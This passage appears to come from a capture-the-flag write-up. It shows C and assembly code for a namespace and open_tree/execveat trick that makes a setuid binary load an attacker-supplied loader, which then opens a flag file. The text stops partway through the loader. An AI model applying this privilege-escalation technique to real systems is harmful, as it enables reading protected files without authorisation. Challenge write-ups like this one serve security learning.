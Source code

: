 Now we have to send the mounted directory to the parent process. We cannot directly send the home directory, but we need to send the root directory, otherwise the relative paths will not be resolved in the correct way. To send it we can use a socket pair and send the file descriptor of the opened root directory.

In the parent:
```c
int sock_pair[2];
socketpair(AF_UNIX, SOCK_DGRAM | SOCK_CLOEXEC, 0, sock_pair);

pid_t child = CHECK(clone(child_fun, stack + 0x100000 - 0x100, CLONE_NEWUSER | CLONE_NEWNS, (void*)(long)sock_pair[0]));

int root_fd = recv_fd(sock_pair[1]);
```
In the child:
```c
int child_fun(void* args)
{
	int sock = (long)args;
	mount("none", "/", NULL, MS_REC | MS_PRIVATE, NULL);
	mount("/usr/lib/zapps/build", "/home/user", NULL, MS_BIND, NULL);

	int fd = open("/", O_PATH);

	send_fd(sock, fd);
	pause();
	return 0;
}
```
The pause before the return in child is necessary, otherwise the child process will be killed before the parent has the ability to do anything with the sent file descriptor because the file descriptors of the process are closed and the mounts unmounted. For the `send_fd` and `recv_fd` functions, I just copied them from [here](https://stackoverflow.com/questions/28003921/sending-file-descriptor-by-linux-socket).

Finally we have the root of the child mount namespace in the parent process, normally we couldn't do anything with it, but here we can clone it with the `open_tree` syscall.

```c
int fd = syscall(SYS_open_tree, root_fd, "", AT_EMPTY_PATH | AT_RECURSIVE | OPEN_TREE_CLONE);
```
We also need the `AT_RECURSIVE` flag, this is necessary, because we don't want to clone only the root mount, but also the build - home mount, and that flag is used to clone the whole mount subtree.

Finally we can call `execveat` on that file descriptor to make the magic happen. This will execute the binary with the suid, without dropping it because of the third patch, but will make him think it is located in the home directory where we can place out custom loader.

```c
syscall(SYS_execveat, fd, "home/user/exe", NULL, NULL, 0);
```

The loader cannot have any dependency, because it is a loader, so no main or libc functions. Mine is:
```c
// gcc -o ld-linux-x86-64.so.2 ld.s -nostdlib -nolibc -static
.intel_syntax noprefix
.global _start

.text
_start:
	// open("/mnt/flag", O_RDONLY, 0)
	lea rdi, [rip + path]
	mov rsi, 0
	mov rdx, 0
	mov rax, 2
	syscall
```